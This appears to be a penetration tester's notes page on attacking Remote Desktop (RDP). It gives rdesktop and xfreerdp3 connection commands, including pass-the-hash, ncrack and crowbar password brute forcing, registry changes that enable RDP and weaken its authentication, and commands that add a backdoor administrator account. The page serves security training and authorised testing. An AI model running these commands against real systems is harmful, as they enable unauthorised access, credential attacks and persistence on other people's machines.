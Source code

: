 ### **Checks**

- [ ] Check if you can login with default guest account and blank password
- [ ] Check if you can brute force users
- [ ] Check for BlueKeep

### Operators Handbook pg 362
Pay attention to the possibility of adding a user via other vulnerability and accessing by RDP. [[Port 139 445 (Exploits)#MS17-010 method 2 RDP]]

 Run to get freerdp3 packages to use `xfreerdp3`
 ```bash
 sudo apt install freerdp3-dev
 sudo apt install freerdp3-x11
 ```

#### rdesktop Domain User:
```bash - kali
rdesktop -u $USER -p $PASSWORD -d $NETBIOS_DOMAIN_NAME -g 85% -r disk:share=/home/kali/Desktop/ $TARGET
```

#### rdesktop
```bash - kali
rdesktop $TARGET -u foobar -p Pass123 -g 1024x768 -x 0x80
```

Connect with share:
```bash - kali
rdesktop -u $USER -p $PASSWORD -g 85% -r disk:share=/home/kali/Desktop/ $TARGET
```

Guest login:
```bash - kali
rdesktop -u guest -p guest $TARGET -g 94%
```

#### xfreerdp Domain User:
```
/tls-seclevel:0 /timeout:80000
```

Connect with share:
```bash - kali
xfreerdp3 /u:$USER /p:$PASSWORD /v:TARGET +auto-reconnect /dynamic-resolution /drive:kali,/home/kali/Desktop/
```

```bash - kali
xfreerdp3 /u:$USER /p:$PASSWORD /d:$NETBIOS_DOMAIN_NAME /v:$TARGET +auto-reconnect /dynamic-resolution
```

```bash - kali
xfreerdp3 /u:$USER /pth:$HASH /d:$NetBIOS_Domain_Name /v:$TARGET +auto-reconnect /dynamic-resolution
```

#### xfreerdp3
```bash - kali
xfreerdp3 /v:$TARGET -sec-nla /u:"" +auto-reconnect /dynamic-resolution
```

```bash - kali
xfreerdp3 /u:$USER /p:$PASSWORD /cert:ignore /v:$TARGET +auto-reconnect /dynamic-resolution
```

```bash - kali
nmap -p 3389 --script=rdp-vuln-ms12-020.nse $TARGET
```

```bash - kali
ncrack -vv --user $USER -P /usr/share/wordlists/rockyou.txt rdp://$TARGET
```

```bash - kali
python crowbar.py -b rdp -s $TARGET/32 -u $USER -C ../rockyou.txt -v
```
### Enabling RDP
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```

```powershell - windows
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

```batch - windows
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0 /f
```

```batch - windows
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

```batch - windows
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

```
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```

```
sc start TermService
```

#### Add a new user to Admin, good for RDP
```batch - kali
net user foobar Pass123 /add
```

```batch - kali
net localgroup Administrators foobar /add
```

```batch - kali
sc config TermService start=auto
```

```batch - kali
net start TermService
```

```bash - kali
rdesktop -g 85% -r disk:share=/home/kali/Desktop/ -u foobar -p Pass123 $TARGET
```

#### We can use `--packet-trace` to track the individual packages and inspect their contents manually
```bash 
nmap -sV -sC $TARGET -p3389 --packet-trace --disable-arp-ping -n
```

A Perl script named [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) has also been developed by [Cisco CX Security Labs](https://github.com/CiscoCXSecurity) that can unauthentically identify the security settings of RDP servers based on the handshakes.

To install:
```
sudo cpan 
```

Then type:
```
install Encoding::BER
```

```bash 
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
```

```
 ./rdp-sec-check.pl $TARGET
```


See also:
[[Crowbar]]

